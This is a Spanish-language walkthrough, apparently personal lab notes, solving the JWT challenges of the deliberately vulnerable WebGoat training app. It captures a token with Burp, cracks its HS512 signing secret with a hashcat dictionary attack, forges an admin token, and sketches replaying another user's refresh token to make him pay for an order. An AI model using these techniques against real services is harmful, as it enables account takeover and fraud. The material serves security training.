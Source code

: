 # JWT tokens

JsonWebTokens 

**********************************************************************

# Proceso
Capturamos la petición

# 1) Capturamos el access token con ayuda de burp
## Access token
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0.cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ
```

Dado el RFC de JWT sabemos que el token se compone de 3 partes y está separado por `.`

## Access token explain
```
Header:
	eyJhbGciOiJIUzUxMiJ9
Claim: 
	eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0
Signature:
	cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ
```

## Access token decoded
```
Header:
	{"alg":"HS512"}
Claim: 
	{"iat":1594522971,"admin":"false","user":"Sylvester"}
Signature:
	?
```

***************************************************************

# 2) Crackeamos el access token para encontrar el "secret" con el que se cifro

Con Ayuda de hashcat trataremos de encontrar el `secret` mediante un ataque de diccionario

1. Creamos un archivo token.txt con nuestro token
2. Usamos el diccionario proporcionado por [first20hours](https://github.com/first20hours/google-10000-english/blob/master/google-10000-english.txt)
3. Usamos la herramienta hashcat

La sintaxis de la herramienta es la siguiente:
```bash
# Using a Wordlist:  
hashcat -a0 -m 16500 text.hash [dict]

# Pure Brute force attack:  
hashcat -a3 -m 16500 text.hash
```

Para nuestro caso sería:
```bash
# Using a Wordlist:  
hashcat -a0 -m 16500 token.txt google-10000-english.txt
```

Lo que nos dará el siguiente output
```
Dictionary cache built:
* Filename..: google-10000-english.txt
* Passwords.: 10000
* Bytes.....: 75888
* Keyspace..: 10000
* Runtime...: 0 secs

eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1OTQ1MjI5NzEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiU3lsdmVzdGVyIn0.cmya1cEk7cRqfMLN5RT0yMDOxQu1bsRvdnZE00hsAfxDp4smEsCNZp5_ncymxyu0n6Hch8lYdGQ3SiawIRNqwQ:victory
```

Donde podemos observar que el `secret` es `victory`

***************************************************************
# 3) Modificamos y creamos un nuevo token

Una vez que tenemos el `secret` podemos crear un nuevo token correctamente firmado.
Para esto, hacemos lo siguiente:

1. Abrimos jwt.io
2. Pegamos nuestro token original
3. Modificamos `"admin": "false"`, a `"admin": "true"`
4. Ingresamos nuestro `secret` que en este caso es `victory`
5. Copiamos el nuevo token y lo pegamos en la función `repeater` de burp

***********************************************************************

# Materiales de ayuda
+ https://gchq.github.io/CyberChef/
+ https://jwt.io/
+ https://security.stackexchange.com/questions/200918/using-hashcat-in-order-to-crack-the-jwt-signature-in-webgoat
+ https://github.com/first20hours/google-10000-english/blob/master/google-10000-english.txt


************************************************************************

# JWT cracking - 5
Crackea el token y cambia el username por WebGoat

```
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU5MzY1ODk2NCwiZXhwIjoxNTkzNjU5MDI0LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.13Z65CLhvxsVYa9upeQ2FH8g726PKAx-qJ11-xmS8fU
```

# JWT 6 

```
curl -v -X POST -d 'username=username&password=password' localhost:8080/WebGoat/login
```

+ https://emtunc.org/blog/11/2017/jwt-refresh-token-manipulation/


# JWT Tokens - 7

## El reto 7 y 8 parecen fallar al utilizar cookies en lugar de JWT tokens


¿Puede encontrar la manera de ordenar libros haciendo que pague Tom por ellos?

## Historial de Tom
```
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/checkout?token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q HTTP/1.1" 401 242 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 200 12783 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/login HTTP/1.1" 200 212 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/addItems HTTP/1.1" 404 249 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
195.206.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 404 215 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36" "-"
```



```bash
# refresh token tom
GET /JWT/refresh/checkout?token=
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q 

# refresh token webgoat
POST /WebGoat/JWT/refresh/checkout HTTP/1.1
eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A


194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 200 12783 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/login HTTP/1.1" 200 212 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
194.201.170.15 - - [28/Jan/2016:21:28:01 +0100] "GET /JWT/refresh/addItems HTTP/1.1" 404 249 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" "-"
195.206.170.15 - - [28/Jan/2016:21:28:01 +0100] "POST /JWT/refresh/moveToCheckout HTTP/1.1" 404 215 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36" "-"
```

# Referencias adicionales
+ https://emtunc.org/blog/11/2017/jwt-refresh-token-manipulation/
+ https://stackoverflow.com/questions/3252851/how-to-display-request-headers-with-command-line-curl
+ https://github.com/WebGoat/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)#jwt-tokens
+ https://haxkerxavier.home.blog/2019/05/04/webgoat-authentication-flaws-jwt-tokens-7/
